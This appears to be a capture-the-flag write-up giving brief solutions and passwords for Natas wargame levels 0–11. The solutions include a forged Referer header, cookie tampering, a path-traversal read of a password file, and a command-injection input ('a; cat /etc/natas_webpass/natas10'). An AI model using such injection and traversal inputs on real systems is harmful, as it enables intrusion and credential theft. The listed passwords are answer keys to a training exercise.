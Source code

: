 # Natas0
* View page source
* gtVrDuiDfck831PqWsLEZy5gyDz1clto

# Natas1
* View page source by typing view-source in the link
* ZluruAthQk7Q2MqmDeTiUij2ZvWy2mBi

# Natas2
* View source to find src = files/pixel.png
* go to [website]/files/
* sJIJNW6ucpu6HPZ1ZAchaDtwd7oGrD14

# Natas3
* [website]/robots.txt
* [website]/s3cr3t/
* Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ

# Natas4
* curl -H "Referer: http://natas5.natas.labs.overthewire.org/" -u natas4:Z9tkRkWmpt9Qr7XrR5jWRkgOU901swEZ http://natas4.natas.labs.overthewire.org/
* iX6IOfmpN7AYOQGPwtn3fXpbaJVJcHfq

# Natas5
* Saw that there was cookie called loggedin that was set to 0
* Opened up console and did document.cookie="loggedin=1"
* aGoY4q2Dc6MgDq4oL4YtoKtyAg9PeHa1

# Natas6
* Saw that there was an "includes/secrets.inc" file
* Visited http://natas6.natas.labs.overthewire.org/includes/secret.inc 
* Saw that the secret is FOEIUWGHFEEUHOFUOIU
* 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9

# Natas7
* http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8
* DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

# Natas8
* Used hex2bin php command on 3d3d516343746d4d6d6c315669563362
* Got the value b3ViV1lmMmtCcQ==, and then reversed it
* Got oubWYf2kBq as the decoded base 64 value
* W0mMhUcRRnG8dcghE4qvk3JA9lGt8nDl

# Natas9
* Injection vulnerability
* a; cat /etc/natas_webpass/natas10
* nOpp1igQAkUzaI1GUUjzn1bFVj7xCNzu

# Natas10
* input "1 /etc/natas_webpass/natas11" into search query
* U82q5TCMMQ9xuFoI3dYX61s7OZD9JKoK

# Natas11
* Look at code snippet in Natas11 folder
* EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3

